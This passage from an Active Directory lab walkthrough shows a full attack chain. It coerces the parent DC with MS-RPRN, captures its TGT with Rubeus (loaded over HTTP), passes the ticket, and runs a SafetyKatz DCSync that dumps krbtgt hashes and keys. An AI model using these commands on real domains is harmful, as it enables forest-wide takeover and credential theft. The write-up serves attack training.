`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:MCORP-DC$ /interval:5 /nowrap`:
```
[*] Action: TGT Monitoring📌
[*] Target user     : MCORP-DC$🖥️
[*] Monitoring every 5 seconds for new TGTs

[...]
```

- **Use Coercion to Force Authentication from the (Parent) DC to a Service on the Target Server and Capture its TGT**
 
Use MS-RPRN on the student VM to trigger authentication from `mcorp-dc` to `dcorp-appsrv`.


`C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`:
```
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```

Alternatively, we can also use MS-WSP or MS-DFSNM.

On the Rubeus listener, we can see the TGT of `mcorp-dc$`.

```
[...]

[*] 2/20/2025 1:05:59 PM UTC - Found new TGT:📌

  User                  :  MCORP-DC$🎭@MONEYCORP.LOCAL🏛️
  StartTime             :  2/19/2025 9:09:27 PM
  EndTime               :  2/20/2025 7:09:24 AM
  RenewTill             :  2/26/2025 9:09:24 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    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

[*] Ticket cache size: 1
```

As previously, copy the base64 encoded ticket and use it with Rubeus on student VM.
Run the below command **from an elevated shell** as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process.

- **Leverage the Captured TGT to Run a DCSync Attack on the (Parent Root) DC and Gain EA Privileges**


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx…`:
```
[SNIP]

[*] Action: Import Ticket📌
[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x4964ae

Cached Tickets: (1)

#0>     Client: MCORP-DC$🎭 @ MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/MONEYCORP.LOCAL @ MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/19/2025 21:09:27 (local)
        End Time:   2/20/2025 7:09:24 (local)
        Renew Time: 2/26/2025 21:09:24 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Now, we can run DCSync from this process.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local📌
[DC] 'moneycorp.local' will be the domain
[DC] 'mcorp-dc.moneycorp.local' will be the DC server
[DC] 'mcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:46:24 PM
Object Security ID   : S-1-5-21-335606122-960912869-3279953914-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: a0981492d5dfab1ae0b97b51ea895ddf🔑
    ntlm- 0: a0981492d5dfab1ae0b97b51ea895ddf
    lm  - 0: 87836055143ad5a507de2aaeb9000361

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 7c7a5135513110d108390ee6c322423f

* Primary:Kerberos-Newer-Keys *
    Default Salt : MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e🔑
      aes128_hmac       (4096) : 801bb69b81ef9283f280b97383288442
      des_cbc_md5       (4096) : c20dc80d51f7abd9

[SNIP]
```

Awesome! We escalated to Enterprise Administrators too!
🚩

---
---
